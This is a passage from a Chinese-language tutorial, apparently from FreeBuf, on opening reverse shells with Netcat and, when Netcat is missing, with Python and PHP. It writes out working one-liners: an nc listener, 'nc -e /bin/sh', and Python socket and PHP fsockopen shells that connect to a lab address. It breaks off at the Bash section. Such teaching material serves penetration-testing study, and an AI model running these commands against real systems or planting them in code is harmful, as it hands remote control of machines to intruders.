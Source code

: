 [<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="目标主机" width="690" data-original="https://image.3001.net/images/20180415/15237838137473.png!small" />](https://image.3001.net/images/20180415/15237838137473.png)

## 反向shell

本地主机：

命令： nc -lvp  Target_Port

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="本地主机" width="690" data-original="https://image.3001.net/images/20180415/15237842362478.png!small" />](https://image.3001.net/images/20180415/15237842362478.png)

目标主机：

命令： nc  Targert_IP Targert_Port  -e /bin/sh

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="目标主机" width="690" data-original="https://image.3001.net/images/20180415/15237842932087.png!small" />](https://image.3001.net/images/20180415/15237842932087.png)

### 特殊情况目标主机上没有Netcat，如何获取反向shell

在一般情况下，目标主机上一般都是不会有Netcat的，此时就需要使用其他替代的方法来实现反向链接达到攻击主机的目的，下面简单的介绍几种反向shell的设置。

**python反向shell**

目标主机端执行语句：

```
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.11.144",2222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
```

本地主机

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="本地主机" width="690" data-original="https://image.3001.net/images/20180415/15237917421331.png!small" />](https://image.3001.net/images/20180415/15237917421331.png)

目标主机

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="目标主机" width="690" data-original="https://image.3001.net/images/20180415/15237917644515.png!small" />](https://image.3001.net/images/20180415/15237917644515.png)

**PHP反向shell**

目标主机端执行语句：

```
`php -r '$sock=fsockopen("192.168.11.144",2222);exec("/bin/sh -i <&3 >&3 2>&3");'`
```

本地主机：

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="本地主机" width="690" data-original="https://image.3001.net/images/20180415/15237915077315.png!small" />](https://image.3001.net/images/20180415/15237915077315.png)

目标主机：

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="目标主机" width="690" data-original="https://image.3001.net/images/20180415/15237914595773.png!small" />](https://image.3001.net/images/20180415/15237914595773.png)

**Bash反向shell**

目标主机端执行语句：

